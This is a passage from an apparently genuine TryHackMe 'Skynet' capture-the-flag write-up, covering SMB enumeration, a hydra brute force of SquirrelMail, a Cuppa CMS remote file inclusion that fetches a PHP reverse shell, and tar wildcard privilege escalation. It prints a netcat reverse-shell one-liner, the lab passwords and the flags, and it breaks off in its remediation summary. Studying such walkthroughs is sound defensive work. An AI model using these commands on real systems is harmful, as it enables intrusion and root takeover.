# Skynet - SMB Wordlist to SquirrelMail to Cuppa CMS RFI to tar Wildcard Privesc

**Platform:** TryHackMe
**Difficulty:** Medium
**Type:** Offensive Security / CTF (Linux Multi-Service)
**Date:** 2026-05-10

---

## Overview

A medium boot-to-root that chains five distinct findings into one path. enum4linux against the anonymous Samba share confirms **milesdyson** as a valid system account. The anonymous share itself exposes *log1.txt*, a sixteen-thousand-line password wordlist that turns out to belong to milesdyson. Hydra against the **SquirrelMail** webmail at /squirrelmail/ recovers his password (*cyborg007haloterminator*), and his inbox contains an automated *"Samba Password reset"* email with the new SMB password for his personal share. Inside that share, a *notes/important.txt* file leaks a hidden web path (*/45kra24zxs28v3yd*), behind which a **Cuppa CMS** install is reachable. Cuppa CMS is vulnerable to a documented **Remote File Inclusion** (a flaw that lets an attacker make the server fetch and execute a PHP file from *anywhere on the internet*) in *alertConfigField.php*, which is used to pull a PHP reverse shell hosted on the Kali box and pop a www-data shell. The final escalation abuses a **tar wildcard injection** in a root cron job: planting two specially-named empty files in the wildcard'd directory tricks tar into parsing them as command-line flags, executing an attacker-controlled shell script as root on the next cron tick.

---

**Target:** 10.66.172.53 (Ubuntu Linux 4.8.0-58, Apache 2.4.18, OpenSSH 7.2p2, Samba 3.x/4.x, Dovecot POP3/IMAP)

**Tools:** nmap, gobuster, enum4linux, smbclient, hydra, Firefox, searchsploit, php-reverse-shell (pentestmonkey), python3 (HTTP server), netcat

---

## Walkthrough

### Phase 1: Port and Service Enumeration

A full TCP service scan against the target returned six open ports: **SSH on 22** (OpenSSH 7.2p2), **HTTP on 80** (Apache 2.4.18), **POP3 on 110** (Dovecot), **Samba on 139 and 445** (workgroup *WORKGROUP*, hostname *SKYNET*), and **IMAP on 143** (Dovecot). POP3 plus IMAP plus a workgroup name hints that this box hosts both a mail server and a Windows-style file share, two distinct service trees to enumerate.



---

### Phase 2: Directory Brute Force on Port 80

gobuster against the web root with the *dirb/common.txt* wordlist surfaces */admin* (403), */config* (301), */css*, */js*, */index.html*, and most importantly **/squirrelmail** (301). SquirrelMail is a legacy PHP webmail front-end, which lines up neatly with the POP3 and IMAP services on the nmap output.



---

### Phase 3: SquirrelMail Login Page

Browsing to /squirrelmail/src/login.php loads the **SquirrelMail version 1.4.23 [SVN]** login page. The version banner is right there in the page header, which is enough to start looking for known CVEs, but the more direct path is to identify a valid user first.



---

### Phase 4: enum4linux Confirms a Valid User

enum4linux against the Samba services enumerates SIDs and resolves them to usernames. The output identifies **SKYNET\milesdyson** as a real local account, alongside the standard *nobody* and *None* SIDs. That is the username to feed into both SMB and SquirrelMail attacks.



---

### Phase 5: Anonymous SMB Share

The Samba server allows an **anonymous** session (no credentials, any password accepted) to a share named *anonymous*. Listing the share surfaces a top-level *attention.txt* file and a *logs/* directory containing three files: *log1.txt*, *log2.txt*, *log3.txt*.



---

### Phase 6: attention.txt

The note in the share root is signed by *Miles Dyson* and reads:

> *"A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this."*

This is the same operational message used to seed the Brooklyn Nine Nine room (a note that names users and confirms passwords are weak). It also implies that whatever password material is sitting elsewhere on the share is operationally relevant.



---

### Phase 7: log1.txt Password Wordlist

logs/log1.txt is a flat list of password candidates, all variants on *terminator*, *cyborg*, *exterminator* and similar Skynet-flavored strings (*cyborg007haloterminator, terminator22596, terminator219, ...*). It is a custom wordlist, almost certainly the password rotation history for the user the *attention.txt* note refers to.



---

### Phase 8: Hydra Brute Force Against SquirrelMail

SquirrelMail's redirect.php takes *login_username* and *secretkey* (its name for *password*) as POST parameters. Hydra is pointed at that endpoint with username *milesdyson* and the custom *log1.txt* wordlist. The failure marker *"Unknown user or password incorrect"* is what tells Hydra a guess failed.

```
hydra -l milesdyson -P log1.txt 10.66.172.53 \
      http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect"
```



**Recovered credentials:** milesdyson : **cyborg007haloterminator**

The first line of log1.txt is the winning password, which is exactly the kind of finding the *attention.txt* note was hinting at.

---

### Phase 9: SquirrelMail Inbox

Logging in with the recovered credentials reveals three emails in milesdyson's inbox. The relevant one is from *skynet@skynet* with the subject **"Samba Password reset"**.



---

### Phase 10: SMB Credential Disclosure via Email

Opening the email surfaces the *milesdyson* SMB share password (the personal share, distinct from the anonymous one):

> *"We have changed your smb password after system malfunction. Password: )s{A&2Z=F^n_E.B\`"*



**SMB credentials:** milesdyson : **)s{A&2Z=F^n_E.B\`**

This pattern, an *automated password reset email to a user's inbox*, is one of the most common credential-leak vectors in real engagements. If an attacker controls the inbox, they control every account whose reset workflow lands there.

---

### Phase 11: milesdyson Personal SMB Share

*smbclient //10.66.172.53/milesdyson -U milesdyson* with the password from the email succeeds. The share contains a stack of academic PDFs on neural networks (window dressing for the Skynet theme) plus a *notes/* directory.



---

### Phase 12: notes/important.txt Reveals a Hidden Web Path

The notes directory contains *important.txt* with milesdyson's personal to-do list:

```
1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

The first line discloses a deliberately obscure, attacker-unguessable web path: **/45kra24zxs28v3yd**. This is *security through obscurity* (the practice of relying on a secret URL or filename instead of authentication) and collapses the moment any user with read access to the share leaks it.



---

### Phase 13: Hidden Directory - Miles Dyson Personal Page

Browsing to http://10.66.172.53/45kra24zxs28v3yd/ loads a *Miles Dyson Personal Page* with a portrait of Dr. Miles Dyson. The path is real, and there is a working web app behind it.



---

### Phase 14: gobuster on the Hidden Path Surfaces /administrator

gobuster against /45kra24zxs28v3yd/ with the same common.txt wordlist finds **/administrator** (301), in addition to the usual *.htaccess* / *.htpasswd* / *.hta* hits.



---

### Phase 15: Cuppa CMS Admin Login

The /administrator path lands on a Cuppa CMS login panel asking for *"a valid username and password to gain access to the administration."* The CMS branding plus the panel layout is enough to identify the product and start searching for known CVEs.



---

### Phase 16: searchsploit Cuppa CMS

searchsploit returns a single hit: **Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion**, archived as Exploit-DB *25971.txt*. The bug is in /alertConfigField.php's *urlConfig* parameter, which is passed straight into a PHP *include()* call without any path sanitization. Passing it a remote URL causes the server to fetch and execute that URL as PHP, no authentication required, no admin panel needed.



---

### Phase 17: RFI to PHP Reverse Shell

A copy of the pentestmonkey *php-reverse-shell.php* is dropped into a directory served by *python3 -m http.server*, with *$ip* pointing at the Kali interface and *$port* set to **4444**. The RFI is triggered by requesting:

```
http://10.66.172.53/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://<KALI_IP>/php-reverse-shell.php
```

A netcat listener on 4444 catches the callback as **uid=33 (www-data)** on Ubuntu kernel 4.8.0-58.



A *python3 -c 'import pty; pty.spawn("/bin/bash")'* call upgrades the dumb shell into a proper PTY before moving on.

---

### Phase 18: User Flag

milesdyson's home directory is readable to www-data, so *cat /home/milesdyson/user.txt* drops the first flag.



**User flag:** 7ce5c2109a40f958099283600a9ae807

---

### Phase 19: tar Wildcard Injection via Root Cron to Root Flag

Enumerating cron and writable paths shows that root runs a script every minute that does roughly *cd /var/www/html && tar -czf /var/backups/backup.tgz \** (a wildcard backup, with the asterisk expanded by the shell into the literal list of files in the directory). This is the textbook **tar wildcard injection** setup: an attacker who can write into /var/www/html plants two empty files whose *names* happen to be valid tar command-line options:

```
--checkpoint=1
--checkpoint-action=exec=sh shell.sh
```

When the shell expands the asterisk, those filenames end up on tar's command line as flags. tar's *--checkpoint-action=exec* runs an arbitrary command at each checkpoint, so dropping a *shell.sh* in the same directory with a bash reverse-shell payload, then waiting up to 60 seconds for the cron tick, lands a callback **as root**.

```
# in /var/www/html as www-data:
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <KALI_IP> 5555 >/tmp/f' > shell.sh
chmod +x shell.sh
touch -- '--checkpoint=1'
touch -- '--checkpoint-action=exec=sh shell.sh'
```

Listener on 5555 catches the cron's tar run, *whoami* returns **root**, and /root/root.txt is readable.



**Root flag:** 3f0372db24753accc7179a282cd6a949

---

### Room Completed



---

## Vulnerability Summary

### Anonymous SMB Share with Sensitive Content (CWE-284, CWE-200)

The Samba server allows fully anonymous read access to a share that contains both a credential-rotation note and a per-user password wordlist. The anonymous share by itself is a low finding, but its *contents* convert it into the seed of the entire chain.

**Remediation:** Disable anonymous SMB access entirely (*map to guest = never* and *restrict anonymous = 2* in smb.conf). Never store password material, password rotation logs, or password wordlists inside any share. Move backup-of-credentials files to encrypted offline storage and treat any cleartext "old passwords" list as live secrets until proven otherwise.

### Custom Password Wordlist Equals Credential Disclosure (CWE-522, CWE-798)

log1.txt is operationally a list of *every password the user has ever used*. Even if none of those passwords are still active, the file leaks the user's password-generation habits (the *terminator* family, numeric suffixes), which is enough to seed a targeted wordlist attack against any system that user authenticates to.

**Remediation:** Never archive plaintext password rotation history. If audit history is required for compliance, store one-way hashes (Argon2id or bcrypt) of past passwords, not the originals, and only use them to enforce *no-reuse* policy at the password-change endpoint. Rotate every credential whose plaintext has ever lived in a file that a user other than the credential's owner can read.

### Plaintext Credential Delivery via Email (CWE-319: Cleartext Transmission)

The Samba password reset workflow emails the *new* SMB password to the user's mailbox in cleartext. Anyone who compromises the mailbox, in this case Hydra against SquirrelMail, also recovers the SMB credentials with zero additional effort.

**Remediation:** Never send credentials by email. Send a one-time, time-boxed reset link that requires the user to set a new password on a TLS-protected endpoint. If a temporary password must be sent out-of-band, deliver it through a different channel from where the user reads email (SMS, a hardware token, a physical printout) and force a change-on-first-use flow.

### Security Through Obscurity on /45kra24zxs28v3yd (CWE-200, CWE-1392)

The "beta CMS" path was hidden behind a randomly-named directory with the implicit assumption that nobody would guess it. That assumption holds for exactly as long as no user with read access to any file on the box ever writes the path down anywhere readable, which is a far weaker control than authentication and was broken here by a single notes file.

**Remediation:** Require real authentication on every internal-only endpoint. Put pre-production CMS paths behind HTTP basic auth, an IP allowlist, or a VPN. Treat obscure URLs as zero-friction *defense in depth*, never as the primary control.

### Cuppa CMS Remote File Inclusion (CWE-98 + CWE-918)

